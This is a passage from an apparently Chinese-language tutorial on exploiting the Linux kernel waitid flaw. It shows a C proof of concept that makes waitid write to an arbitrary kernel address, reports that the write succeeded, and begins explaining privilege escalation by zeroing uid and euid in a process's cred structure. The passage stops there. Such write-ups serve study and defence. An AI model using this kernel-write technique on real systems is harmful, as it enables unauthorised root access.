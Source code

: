 然后写一个利用waitid对我们刚刚申请的内核内存地址进行写的C程序:
```c
#include <sys/wait.h>
#include <sys/types.h>
#include <sys/mman.h>
#include <asm/unistd.h>
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <assert.h>
#include <errno.h>
#include <string.h>

int main(void){
    void *ptr = (void*)0xffff8800294eb900;//该值为申请到的内核内存地址

    int pid = fork();
    if(pid == -1){
        printf("fork error:%s",strerror(errno));
        exit(-1);
    }   

    if(pid > 0){ 
        int retval = 0;
        retval = waitid(P_PID,pid,ptr,WEXITED|WSTOPPED|WCONTINUED);

        if(retval == -1){
            printf("waitid error:%s\n",strerror(errno));
            exit(-1);
        }
    
    }   
    else if(pid == 0){ 
        exit(0);
    }   

    return 0;
}
```
编译并执行,然后卸载我们刚刚加载的模块，卸载该模块，其会打印我们申请到的内核内存中的数据.
![image](./images/2.png)

可以看到，我们已经成功的写掉内核内存数据

## 漏洞利用
原理:每一个进程都有一个cred结构,该结构用于管理进程权限,如果我们使cred中的euid和uid为0，则可以使该进程获得root权限
